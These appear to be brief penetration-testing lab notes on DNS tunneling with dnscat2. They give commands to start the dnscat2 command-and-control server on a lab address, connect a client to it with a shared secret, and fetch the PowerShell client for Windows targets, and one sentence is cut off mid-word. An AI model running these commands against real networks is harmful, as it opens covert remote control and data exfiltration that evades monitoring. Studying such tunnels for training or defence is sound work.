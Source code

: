 # DNS tunneling with Dnscat2 

 It uses an encrypted Command-&-Control (C&C or C2) channel and sends data inside TXT R

1. starting the dnscat2 server 
cd server
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache


Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=f92d728358b51650aec4fc8fbdb0eb0b inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=f92d728358b51650aec4fc8fbdb0eb0b

2. Download windows machine with the client (windows compatible version)
git clone https://github.com/lukebaggett/dnscat2-powershell.git





 